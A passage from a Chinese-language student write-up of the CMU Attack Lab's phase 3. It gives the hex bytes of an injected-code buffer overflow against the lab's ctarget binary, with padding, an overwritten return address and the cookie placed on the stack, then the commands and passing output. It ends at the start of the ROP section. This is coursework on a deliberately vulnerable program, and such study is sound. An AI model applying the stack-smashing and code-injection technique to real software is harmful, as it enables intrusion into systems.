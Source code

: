 ```
35 39 62 39 39 37 66 61         /* $0x59b997fa, cookie     */
00 48 c7 c7 78 dc 61 55            /* mov    $0x5561dc78,%rdi */
68 fa 18 40 00                  /* pushq  $0x4018fa        */
c3                              /* retq                    */
00 00 
65 65 65 65 65 65 65 65    
65 65 65 65 65 65 65 65    
81 dc 61 55 00 00 00 00         /* %rsp to instruction     */
```

就只能将字符串写到调用者的栈帧里面了。

#### 漏洞利用步骤：

**a.构造字节序列**

这里将cookie写到返回地址下面,(虽然这样可能会崩，phase2这样就崩了，但没想到其他办法)。

只需要改一下上面那个失败版本就行,栈地址的更改用gdb调试一下就知道位置了。

```
48 c7 c7 a8 dc 61 55            /* mov    $0x5561dca8,%rdi */       
68 fa 18 40 00                  /* pushq  $0x4018fa ，touch3的地址  */       
c3                              /* retq                    */    
00 00 00    
65 65 65 65 65 65 65 65        
65 65 65 65 65 65 65 65        
65 65 65 65 65 65 65 65         /*  到这里有40字节 */    
78 dc 61 55 00 00 00 00         /* 返回地址,%rsp to instruction     */    
35 39 62 39 39 37 66 61         /* $59b997fa, cookie写在这个位置 */    
00
```



**结果**

```bash
$ ./hex2raw < exploit.txt >exploit-raw.txt 
$ ./ctarget <exploit-raw.txt -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

## 第二部分 Return-Oriented Programming

### Phase 4:
